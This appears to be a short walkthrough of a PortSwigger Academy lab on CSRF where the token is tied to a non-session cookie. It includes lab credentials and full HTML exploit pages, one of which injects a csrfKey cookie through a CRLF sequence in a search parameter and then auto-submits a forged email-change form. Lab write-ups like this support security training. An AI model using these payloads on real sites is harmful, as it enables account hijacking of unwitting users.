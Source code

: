 # CSRF where token is tied to non-session cookie

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```javascript
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

---

### step 1

login weiner account
change email and send to repeter
try to change csrf code into repeater and test
csrf and csrfkey both are related to each other

### step2

login to carlos account
inspect login page for csrfkey and csrf token

![](images/csrf_token.jpg)
![](images/csrfkey.jpg)

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0ade0013041db8728074596200e7003b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="exa@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="htsrRRjOPn24ZUczIAQWd2Rm9rBdjB5Y"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <img
      src="https://0ade0013041db8728074596200e7003b.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=AYQwOigWLF9sDxmw11TpMZxchGIHbSRM%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```
